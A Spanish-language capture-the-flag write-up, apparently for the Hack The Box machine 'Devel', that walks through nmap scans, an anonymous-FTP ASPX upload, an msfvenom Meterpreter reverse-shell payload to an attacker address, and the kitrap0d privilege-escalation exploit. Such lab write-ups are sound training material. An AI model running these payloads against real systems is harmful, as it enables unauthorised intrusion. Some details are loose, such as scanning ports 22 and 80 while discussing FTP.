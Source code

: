 ```yaml
---
layout: post
author: Sergio Salgado
---
```


|     Iformation         |      Link          |
|:-----------------------|:-------------------|
| Name                   | Devel              |
| Os                     | Windows            |
| Difficulty             | Easy               |
| Points                 |  0                 |
| IP                     | 10.10.10.5         |

## [](#header-2)Introduccion

Primero utilizaremos la herramienta que hace la identificación de conexión silenciosa y reconocimiento del sistema al que nos presentamos.

![Scan 1](/assets/images/Devel/scan1.png)

El primer escaneo rápido con nmap, para poder agilizar mientras más búsquedas o búsqueda de vulnerabilidades sobre esos puertos.

```s
sudo nmap -p- --open -sS --min-rate 5000 -vvv 10.10.10.5
```

![nmap 1](/assets/images/Devel/nmap1.png)

El segundo escaneo, ya un poco más profundo será:

```s
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.5 -oG allPorts
```

![nmap 2](/assets/images/Devel/nmap2.png)

Después de tener los puertos, se puede hacer un escaneo ahora directo a los puertos con:

```s
sudo nmap -sCV -p22,80 10.10.10.5 -oN targeted
```

![nmap 3](/assets/images/Devel/nmap3.png)

Este escaneo nos muestra que el servicio de ftp tiene el usuario anonymous habilitado, y dentro unos archivos y una carpeta que parece estar vacia.

Ahora parece que podemos meter una webshell, como lo hicimos con la maquina Worker, pero esta vez con metasploit de la manera siguiente:

```s
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.29 LPORT=443 -f aspx > meta2.aspx
```

Ahora con msfconsole

```s
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.10.14.29
set LPORT 443
background
```

Una vez con la sesion abierta de meterpreter, buscaremos vulnerabilidades de la siguiente forma:

```s
search suggester
use post/multi/recon/local_exploit_suggester
set SESSION 1
run

use exploit/windows/local/ms10_015_kitrap0d
set SESSION 1
set LHOST 10.10.14.29
set LPORT 443
```

Ahora tenemos acceso como root y podemos leer directamente las flags.

![nmap 3](/assets/images/Devel/root.png)

![nmap 3](/assets/images/Devel/powned.png)